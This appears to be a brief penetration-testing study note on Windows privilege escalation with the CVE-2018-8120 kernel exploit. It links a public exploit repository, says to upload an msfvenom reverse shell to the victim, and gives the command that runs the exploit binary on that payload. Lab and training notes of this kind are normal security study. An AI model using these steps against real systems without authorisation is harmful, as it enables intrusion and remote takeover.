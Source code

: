 https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

Upload file along with a msfvenom reverse shell to victim.

![[4._File Transfers#Certutil]]

```command prompt - wiudows
./x86.exe reverse86.exe
```









